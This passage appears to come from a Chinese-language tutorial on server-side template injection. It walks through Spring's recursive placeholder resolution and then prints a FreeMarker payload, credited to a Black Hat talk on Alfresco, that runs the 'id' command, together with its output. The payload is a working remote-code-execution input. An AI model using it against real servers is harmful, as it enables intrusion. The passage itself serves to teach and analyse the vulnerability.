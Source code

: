 ```java

    ...

    public void render(Map<String, ?> model, HttpServletRequest request, HttpServletResponse response)
            throws Exception {
        ...
        String result = helper.replacePlaceholders(template, resolver);//replacePlaceholders是一个递归调用，能将第二个参数的${} 中的值取出来，不管有多少层括号
        ...
    }
}
```

resolver 这个参数是经过递归的去

```
${}
```

处理的，不信我们看一下 replacePlaceholders()

```
public String replacePlaceholders(String value, final Properties properties) {
    Assert.notNull(properties, "'properties' must not be null");
    return replacePlaceholders(value, new PlaceholderResolver() {
        @Override
        public String resolvePlaceholder(String placeholderName) {
            return properties.getProperty(placeholderName);
        }
    });
}
```

很明显这里面递归调用了replacePlaceholders() 函数，最终能得到单纯的表达式，然后渲染的时候放在

```
${}
```

就执行了。

#### **实例二：**

在2015年的blackhat 大会上曾讲述了Alfresco 的一个 SSTI 漏洞，不过很遗憾我没有找到源码，没能亲自分析，只能拿来payload 分析一下。

**实例代码：**

```
<#assign ex="freemarker.template.utility.Execute"?new()> 
${ ex("id") }
```

**结果：**

```
uid=119(tomcat7) gid=127(tomcat7) groups=127(tomcat7) 
```
